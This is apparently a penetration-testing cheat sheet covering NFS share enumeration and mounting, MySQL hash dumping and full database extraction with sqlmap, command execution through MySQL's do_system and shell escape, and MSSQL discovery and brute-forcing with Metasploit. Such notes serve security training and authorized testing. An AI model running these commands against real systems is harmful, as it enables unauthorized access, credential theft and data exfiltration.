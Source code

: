 ## NFS

Show all mounts

```
showmount -e $ip
```

Mount a NFS share

```
mount $ip:/vol/share /mnt/nfs
```

Use nfspy to mount a share. Will get around permission errors

```
nfspysh -o server=$ip:/home/vulnix/
```

##

## Mysql

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306
```

#### Nmap scan

```
nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```

#### Vuln scanning:

```
sqlmap -u 'http://$ip/login-off.asp' --method POST  --data 'txtLoginID=admin&txtPassword=aa&cmdSubmit=Login' --all --dump-all
```

If Mysql is running as root and you have access, you can run commands:

```
mysql> select do_system('id');
mysql> \! sh
```

#### Enumerate MSSQL Servers on the network

```
msf > use auxiliary/scanner/mssql/mssql_ping
nmap -sU --script=ms-sql-info $ip
```

#### Bruteforce MsSql

```
msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login
```
